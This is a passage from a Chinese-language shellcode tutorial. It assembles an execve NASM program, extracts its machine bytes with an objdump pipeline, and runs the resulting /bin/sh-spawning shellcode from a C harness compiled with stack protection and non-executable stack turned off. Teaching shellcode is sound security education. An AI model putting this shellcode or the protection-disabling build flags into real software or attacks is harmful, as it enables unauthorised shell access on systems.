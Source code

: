 现在运行以下命令：

```
$ nasm -felf64 execve.nasm -o execve.o
$ ld execve.o -o execve $ ./execve
```

上一个命令的输出显示在以下截图中：

![](img/00202.jpeg)

让我们将其转换为 shellcode：

```
$ objdump -M intel -D execve | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

上一个命令的输出显示在以下截图中：

![](img/00203.jpeg)

我们将使用 C 代码来注入我们的 shellcode：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

现在运行以下命令：

```
$ gcc -fno-stack-protector -z execstack execve.c
$ ./a.out
```

